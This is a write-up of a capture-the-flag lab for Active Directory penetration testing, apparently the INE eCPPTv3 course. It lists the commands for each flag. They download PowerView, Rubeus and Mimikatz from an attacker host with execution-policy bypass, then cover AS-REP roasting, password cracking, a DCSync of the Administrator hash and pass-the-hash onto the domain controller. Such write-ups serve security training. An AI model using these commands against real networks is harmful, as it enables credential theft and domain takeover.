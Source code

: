 INE - eCPPTv3 - Active Directory Penetration Testing CTF 1


# 1. flag:

You start on machine named Client with the user student.

RDP  on desktop has saved target.research.security.local host, with the usernamed saved as bobby.  Trying rying the example pass (password1), logged in, alright.

# 2. flag:

Lets AS-REP Roast.

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/PowerView.ps1" -Outfile mimi.ps1
powershell -ep bypass
. .\PowerView.ps1
```

List users with DONT_REQ_PREAUTH:
```
Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
```

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Rubeus.exe" -Outfile Rubeus.exe
.\Rubeus.exe asreproast /user:johnny /outfile:johnhash.txt
```

```
.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe .\johnhash.txt --format=krb5asrep -wordlist=.\10k-worst-pass.txt
```

RDP in with johhny for next flag.


# 3. flag:

On CLIENT macine:

```
powershell -ep bypass
. .\PowerView.ps1
Find-LocalAdminAccess
```

 Access the **seclogs.research.SECURITY.local** machine:
 
```
Enter-PSSession seclogs.research.SECURITY.local
```

# 4. flag:

Lets get to the DC (prod.research.security.local) what i know from this: `nslookup -type=srv _ldap._tcp.dc._msdcs.research.security.local`

```
Invoke-WebRequest -Uri "http://10.0.5.101:8080/Invoke-Mimikatz.ps1" -Outfile mimi.ps1
. .\mimi.ps1

[seclogs.research.SECURITY.local]: PS C:\Users\student.RESEARCH\Documents> Invoke-Mimikatz -Command '"privilege::debug"
"token::elevate" "lsadump::dcsync /domain:research.security.local /user:"CN=Administrator,CN=Users,DC=research,DC=security,DC=l
ocal""'

```

On CLIENT

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:38a...b81d9 /run:powershell.exe"'
```

Now, access the Domain Controller:
```
Enter-PSSession prod.research.SECURITY.local
```

